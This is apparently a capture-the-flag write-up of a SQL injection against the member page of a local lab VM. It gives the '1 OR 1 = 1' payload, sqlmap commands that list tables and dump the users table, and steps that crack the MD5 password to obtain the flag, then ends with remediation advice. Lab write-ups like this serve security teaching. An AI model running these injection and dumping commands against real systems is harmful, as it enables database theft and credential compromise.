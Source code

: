 # SQL Injection Member

The form in the member page has an input value which isn't sanatized when processed by the server.

## Steps
* Go to the member page <a href="http://192.168.56.102/?page=member">http://192.168.0.108/?page=member</a>
* In the form input enter
```bash
1 OR 1 = 1
```
* Press the submit button
* Run reconnaissance
```bash
sqlmap "http://192.168.56.102/?page=member&id=1+OR+1+%3D+1&Submit=Submit#" --tables
```
* We want to extract information from the users table
```bash
sqlmap "http://192.168.56.102/?page=member&id=1+OR+1+%3D+1&Submit=Submit#" --dump -T users
```
<img src="https://i.imgur.com/czJyCei.png" />

* <a href="" target="_blank">MD5 Decrypt</a> the password
* To get the key, run
```bash
py sha256encrypt.py fortytwo
```

## Ways to secure
* Always validate and sanatize input from client
* Use prepared statements and stored procedures
